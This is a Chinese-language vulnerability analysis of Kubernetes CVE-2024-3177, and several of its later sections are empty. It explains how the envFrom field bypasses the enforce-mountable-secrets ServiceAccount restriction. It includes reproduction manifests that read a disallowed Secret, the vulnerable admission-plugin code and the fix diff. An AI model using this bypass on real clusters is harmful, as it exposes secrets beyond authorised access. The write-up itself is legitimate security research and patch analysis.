

# 漏洞分析

## 一、漏洞基本信息

| Item                        | Details                                          | Note                                        |
|-----------------------------|--------------------------------------------------|---------------------------------------------|
| Project                     | Kubernetes                                       |                                             |
| CVE-ID                      | CVE-2024-3177                                    |                                             |
| Vuln's Author               | tha3e1vl                                         |                                             |
| CVSS                        | 2.7 CVSS:3.1/AV:N/AC:L/PR:H/UI:N/S:U/C:L/I:N/A:N |                                             |
| Exploits                    |                                                  |                                             |
| Affect Version              | v1.29.0 - v1.29.3, v1.28.0 - v1.28.8, <= v1.27.12  |                                           |
| Fix Version                 | v1.27.13, v1.28.9, v1.29.4                       |                                             |
| Original Report             |                                                  |                                             |
| Fix Commit                  | [commit](https://github.com/kubernetes/kubernetes/pull/124322/commits/128d6cc14624c55e227761cab4897c471b691b4e)  |   |
| Introduce Commit            |                                                  |                                             |
| Publish Date                | 2024-04-22                                       |                                             |
| Introduce Date              |                                                  |                                             |


## 二、组件简介
`kube-apiserver`为kubernetes核心组件，提供对资源的增删改查及鉴权等功能，所有对资源的访问请求都要经过`kube-apiserver`

## 三、漏洞详情

### 1. 介绍
在pod中使用secret时，可以通过ServiceAccount的注解`kubernetes.io/enforce-mountable-secrets`来限制使用该ServiceAccount的pod只能挂载被允许的secret。ServiceAccount允许挂载的secret列表可在创建时进行指定：
```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  annotations:
    kubernetes.io/enforce-mountable-secrets: "true"
  name: test
  namespace: default
secrets:
  - name: my-secret
```
当pod使用上面的ServiceAccount时，就无法挂载`my-secret`之外的secret。但该限制可通过创建容器时使用`envFrom`进行绕过

### 2. 影响
如果用户具备对pod的create或patch权限，则可以通过创建pod或临时容器挂载任意secret

## 四、防御
更新到修复版本

## 五、漏洞复现

### 1. 复现环境
- 创建包含漏洞版本的集群
```shell
kind create cluster -n cve-2024-3177 --image kindest/node:v1.27.1
```

### 2. 复现过程
- 创建ServiceAccount和Secret
```yaml
apiVersion: v1
kind: Secret
metadata:
  name: my-secret
  namespace: default
type: Opaque
data:
  username: YWRtaW4=  # base64 encoded value for 'admin'
  password: MWYyZDFlMmU2N2Rm  # base64 encoded value for 'password'
---
apiVersion: v1
kind: ServiceAccount
metadata:
  annotations:
    kubernetes.io/enforce-mountable-secrets: "true"
  name: test
  namespace: default
```
- 由于`test`账户没有指定`Secrets`列表，故使用该账户创建的`Pod`无法挂载`my-secret`，尝试挂载会返回错误
```yaml
apiVersion: v1
kind: Pod 
metadata:
  name: test
spec:
  serviceAccountName: test
  containers:
  - image: ubuntu
    name: test
    command: ["sleep"]
    args: ["10000"]
    volumeMounts:
      - mountPath: /etc/my-secret
        name: sc
  volumes:
    - name: sc  
      secret:
        secretName: my-secret
```

- 创建`Pod`，使用`envFrom`挂载`Secrets`
```yaml
apiVersion: v1
kind: Pod 
metadata:
  name: test
spec:
  serviceAccountName: test
  containers:
  - image: ubuntu
    name: test
    command: ["sleep"]
    args: ["10000"]
    imagePullPolicy: IfNotPresent
    envFrom:
    - secretRef:
        name: my-secret
```


## 六、漏洞分析

### 1. 原始特性分析

在Kubernetes中，创建Pod时，有两种方式可以通过环境变量将Secret挂载到容器中，假设有如下secret
```yaml
apiVersion: v1
kind: Secret
metadata:
  name: mysecret
type: Opaque
data:
  username: YWRtaW4=       # base64 编码后的 "admin"
  password: cGFzc3dvcmQ=   # base64 编码后的 "password"
```

- 使用env字段逐个映射Secret的键值对到环境变量
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: mypod
spec:
  containers:
    - name: mycontainer
      image: nginx
      env:
        - name: MY_USERNAME
          valueFrom:
            secretKeyRef:
              name: mysecret
              key: username
        - name: MY_PASSWORD
          valueFrom:
            secretKeyRef:
              name: mysecret
              key: password
```
- 使用envFrom字段将整个Secret中的所有键值对作为环境变量
```yaml
apiVersion: v1
kind: Pod
metadata:
  name: mypod
spec:
  containers:
    - name: mycontainer
      image: nginx
      envFrom:
        - secretRef:
            name: mysecret
```

### 2. 调用链分析

### 3. 漏洞分析
从源码中可以看到，`kube-apiserver`的`securityaccount admission plugin`没有对使用`envFrom`方式挂载`Secret`进行权限校验
```go
func (s *Plugin) limitSecretReferences(serviceAccount *corev1.ServiceAccount, pod *api.Pod) error {
	// Ensure all secrets the pod references are allowed by the service account
	mountableSecrets := sets.NewString()
	for _, s := range serviceAccount.Secrets {
		mountableSecrets.Insert(s.Name)
	}

  // 校验pod中的容器里面的volume卷不能挂载不被允许的secret
	for _, volume := range pod.Spec.Volumes {
		source := volume.VolumeSource
		if source.Secret == nil {
			continue
		}
		secretName := source.Secret.SecretName
		if !mountableSecrets.Has(secretName) {
			return fmt.Errorf("volume with secret.secretName=\"%s\" is not allowed because service account %s does not reference that secret", secretName, serviceAccount.Name)
		}
	}

  // 校验pod中的初始容器的环境变量中不能引用不被允许的secret
	for _, container := range pod.Spec.InitContainers {
		for _, env := range container.Env {
			if env.ValueFrom != nil && env.ValueFrom.SecretKeyRef != nil {
				if !mountableSecrets.Has(env.ValueFrom.SecretKeyRef.Name) {
					return fmt.Errorf("init container %s with envVar %s referencing secret.secretName=\"%s\" is not allowed because service account %s does not reference that secret", container.Name, env.Name, env.ValueFrom.SecretKeyRef.Name, serviceAccount.Name)
				}
			}
		}
	}

  // 校验pod中容器的环境变量中不能引用不被允许的secret
	for _, container := range pod.Spec.Containers {
		for _, env := range container.Env {
			if env.ValueFrom != nil && env.ValueFrom.SecretKeyRef != nil {
				if !mountableSecrets.Has(env.ValueFrom.SecretKeyRef.Name) {
					return fmt.Errorf("container %s with envVar %s referencing secret.secretName=\"%s\" is not allowed because service account %s does not reference that secret", container.Name, env.Name, env.ValueFrom.SecretKeyRef.Name, serviceAccount.Name)
				}
			}
		}
	}

	// limit pull secret references as well
	pullSecrets := sets.NewString()
	for _, s := range serviceAccount.ImagePullSecrets {
		pullSecrets.Insert(s.Name)
	}
	for i, pullSecretRef := range pod.Spec.ImagePullSecrets {
		if !pullSecrets.Has(pullSecretRef.Name) {
			return fmt.Errorf(`imagePullSecrets[%d].name="%s" is not allowed because service account %s does not reference that imagePullSecret`, i, pullSecretRef.Name, serviceAccount.Name)
		}
	}
	return nil
}
```

## 七、漏洞修复分析

增加了对`envFrom`的权限校验
```patch
diff --git a/plugin/pkg/admission/serviceaccount/admission.go b/plugin/pkg/admission/serviceaccount/admission.go
index c844a051c24b3..3f4338128e53c 100644
--- a/plugin/pkg/admission/serviceaccount/admission.go
+++ b/plugin/pkg/admission/serviceaccount/admission.go
@@ -337,6 +337,13 @@ func (s *Plugin) limitSecretReferences(serviceAccount *corev1.ServiceAccount, po
 				}
 			}
 		}
+		for _, envFrom := range container.EnvFrom {
+			if envFrom.SecretRef != nil {
+				if !mountableSecrets.Has(envFrom.SecretRef.Name) {
+					return fmt.Errorf("init container %s with envFrom referencing secret.secretName=\"%s\" is not allowed because service account %s does not reference that secret", container.Name, envFrom.SecretRef.Name, serviceAccount.Name)
+				}
+			}
+		}
 	}
 
 	for _, container := range pod.Spec.Containers {
@@ -347,6 +354,13 @@ func (s *Plugin) limitSecretReferences(serviceAccount *corev1.ServiceAccount, po
 				}
 			}
 		}
+		for _, envFrom := range container.EnvFrom {
+			if envFrom.SecretRef != nil {
+				if !mountableSecrets.Has(envFrom.SecretRef.Name) {
+					return fmt.Errorf("container %s with envFrom referencing secret.secretName=\"%s\" is not allowed because service account %s does not reference that secret", container.Name, envFrom.SecretRef.Name, serviceAccount.Name)
+				}
+			}
+		}
 	}
 
 	// limit pull secret references as well
@@ -388,6 +402,13 @@ func (s *Plugin) limitEphemeralContainerSecretReferences(pod *api.Pod, a admissi
 				}
 			}
 		}
+		for _, envFrom := range container.EnvFrom {
+			if envFrom.SecretRef != nil {
+				if !mountableSecrets.Has(envFrom.SecretRef.Name) {
+					return fmt.Errorf("ephemeral container %s with envFrom referencing secret.secretName=\"%s\" is not allowed because service account %s does not reference that secret", container.Name, envFrom.SecretRef.Name, serviceAccount.Name)
+				}
+			}
+		}
 	}
 	return nil
 }
```

## 八、漏洞挖掘方法与过程

## 九、同类问题挖掘方法

### 设计实现层

### Fuzz

### codeql

## 十、时间线

